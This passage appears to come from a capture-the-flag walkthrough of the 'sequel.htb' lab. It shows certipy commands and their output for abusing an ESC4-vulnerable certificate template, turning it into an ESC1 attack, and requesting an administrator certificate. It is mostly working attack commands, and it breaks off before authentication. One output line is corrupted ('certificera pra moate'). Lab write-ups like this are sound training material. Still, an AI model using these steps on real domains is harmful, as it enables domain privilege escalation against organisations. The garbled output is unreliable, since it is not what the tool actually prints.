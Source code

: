 We found out that there is a `template` vulnerable to `ESC4`, which lets us to write to the template and make it vulnerable to an `ESC1` attack, the steps are as follows:

1. Write to the template
```bash
certipy template \
    -u 'ca_svc@sequel.htb' -hashes '<REDACTED>' \
    -dc-ip "$IP" -template 'DunderMifflinAuthentication' \
    -write-default-configuration
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'DunderMifflinAuthentication.json'
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication_9781220a-0dcf-479a-86b9-bfcc9ea97ee2.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
<SNIP>
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```

If we run the `find` command again, we will see that the template is now vulnerable to `ESC1`

```bash
<SNIP>
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
<SNIP>
```

Now, we can perform the `ESC1` attack by requesting the certificate with the `upn` from the `administrator`

```bash
certipy req \
    -u 'ca_svc@sequel.htb' -hashes '<REDACTED>' \
    -dc-ip "$IP" -target "$FQDN" \
    -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' \
    -upn 'administrator@sequel.htb' 

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificera pra moate with UPN 'administrator@sequel.htb'
[*] Certificate object SID is 'S-1-5-21-548670397-972687484-3496335370-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We could use the generated ticket to authenticate, or get the hash from the `certipy auth` command:
